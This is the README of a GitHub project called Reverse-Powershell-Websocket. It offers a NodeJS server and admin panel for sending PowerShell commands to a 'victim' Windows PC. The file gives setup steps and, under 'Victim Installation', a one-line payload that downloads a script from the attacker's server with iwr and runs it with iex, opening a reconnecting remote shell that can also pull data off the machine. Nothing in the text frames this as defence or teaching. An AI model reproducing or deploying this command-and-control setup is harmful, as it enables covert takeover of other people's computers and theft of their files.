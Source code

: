 # About Reverse-Powershell-Websocket

This is a NodeJS server with the ability to pass through Powershell commands to a victim.

## Features
* NodeJS server that handles messages from the attacker(s) & victim(s)
* Simple HTTP admin panel where you can send Powershell commands
* Passworded access for the websocket admin side
* Ability to decode a byte array response from Powershell into a binary download (for quick downloading of data)
* Reconnecting websocket payload Powershell script
* Powershell catches errors that may occur with commands & reports them back to the websocket

## Requirements
* A server capable of a NodeJS environment with Websocket package
* Remote PC (victim) with Windows 10/11

## Known Issues
* Due to the text encoding it's hard to return binaries from the Powershell response without them being malformed
* If you manage to crash/hang Powershell, it's game over.

## Installation
 1. Open ports 3394 (default websocket) & 3395 (default http) on your server
 2. Create a NodeJS environment with Websocket package
 3. Copy files from the repo into your environment
 4. Check the settings & change password in the config file
 5. Start your node server: "node index.js" or "forever start index.js"
 6. Goto "http://[server_ip]:3395/shell.socket" in browser & enter password

## Victim Installation
 1. Edit "pl.ps1" and change the websocket address to your server: $URL = 'ws://[server_ip]:3394'
 2. Execute the payload on the remote PC: "$pl = iwr http://[server_ip]:3395/pl -UseBasicParsing; iex $pl"
 3. Check admin panel for connection

## Preview
#### 1
![settings]()
#### 2
![gateway]()
#### 3
![checkout]()
